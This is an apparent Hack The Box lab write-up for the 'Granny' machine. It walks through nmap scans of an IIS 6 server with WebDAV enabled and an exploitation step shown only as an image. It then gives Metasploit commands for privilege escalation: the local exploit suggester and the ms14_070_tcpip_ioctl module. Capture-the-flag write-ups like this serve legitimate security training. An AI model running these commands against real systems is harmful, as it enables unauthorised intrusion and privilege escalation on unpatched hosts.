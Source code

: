 # Hack the box - Granny

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.15</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Apr 12</b>

___

## Port scanning

```
nmap -sC -sV -T4 -oA nmap 10.10.10.15
```

![Nmap results](./nmap.png)

There ISS 6 web server running on this machine.

## Exploitation

We can run nmap again for checking vulnerabilities:

```
nmap -p 80 --script="*iis*" 10.10.10.15
```

![Nmap vulnerability scan](nmap_vulns.png)

WebDAV is ENABLED. We can try to exploit this vulnerability:

![Exploitation](exploitation.png)

Great! We have a shell. Since we cannot check for current user, we can try migrating to process:

![Getting user](getting_user.png)

## Privilege escalation

Time to explore potential privilege escalation exploits:

```
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![Privilege escalation scan](priv_esc_scan.png)

Machine is vulnerable to many exploits. 3rd one seems to work:

```
use exploit/windows/local/ms14_070_tcpip_ioctl
set session 1
run
```

![Privilege escalation](priv_esc.png)

## Capturing flags

Last thing to is to capture flags:

![Flags](flags_capture.png)